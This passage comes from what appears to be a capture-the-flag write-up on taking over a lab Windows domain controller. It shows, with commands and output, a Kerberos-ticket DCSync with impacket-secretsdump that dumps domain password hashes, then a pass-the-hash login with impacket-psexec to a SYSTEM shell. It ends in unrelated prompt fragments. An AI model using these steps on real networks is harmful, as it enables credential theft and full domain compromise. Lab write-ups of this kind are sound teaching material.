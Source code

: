 Then i’ll export it to my env variables

```
hcue@pjsk:/tmp/wr » export KRB5CCNAME=/tmp/wr/ticket.ccache
```

One last thing, we need to synchronize our local time to the server, otherwise it won’t work

```
sudo ntpdate 10.129.254.249
```

Now to perform a DCSync on the target, we can use impacket’s `secretsdump.py` script to extract all the hashes from the domain controller. We need to specify kerberos authentication and no password for this operation.

```
hcue@pjsk:/tmp/wr » impacket-secretsdump LOOKOUT-DC.LOOKOUT.local -dc-ip 10.129.254.249 -no-pass -k
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[-] Policy SPN target name validation might be restricting full DRSUAPI dump. Try -just-dc-user
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:cb313353c5eaceb1aae589b1644737bb:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:ab92b60e75818bbb70ca754897aa1e37:::
LOOKOUT.local\lhuman:1104:aad3b435b51404eeaad3b435b51404ee:de9ca94a6f5ea9113d3370476e42a9cb:::
LOOKOUT.local\fhuman:1105:aad3b435b51404eeaad3b435b51404ee:1501f896cae1fd4f0bf6b9593e81dea3:::
LOOKOUT.local\shuman:1106:aad3b435b51404eeaad3b435b51404ee:f4c0320c516b4eeae0533e930beee3c3:::
LOOKOUT-DC$:1001:aad3b435b51404eeaad3b435b51404ee:440f42cdda7c8d86dedc9655e8c003d0:::
<SNIP>
```

Now with the administrator hash we can psexec into the machine

```
hcue@pjsk:/tmp/wr » impacket-psexec Administrator@10.129.254.249 -hashes :cb313353c5eaceb1aae589b1644737bb     1 ↵
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Requesting shares on 10.129.254.249.....
[*] Found writable share ADMIN$
[*] Uploading file HeqMQBmt.exe
[*] Opening SVCManager on 10.129.254.249.....
[*] Creating service bqIM on 10.129.254.249.....
[*] Starting service bqIM.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.3650]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
nt authority\system
```

And then we grab both flags :D!

#### Second Way


[WARNING]: provided hosts list is empty, only localhost is available. Note that
[xc: C:\Windows\system32]: whoami
[xc: C:\Windows\system32]: hostname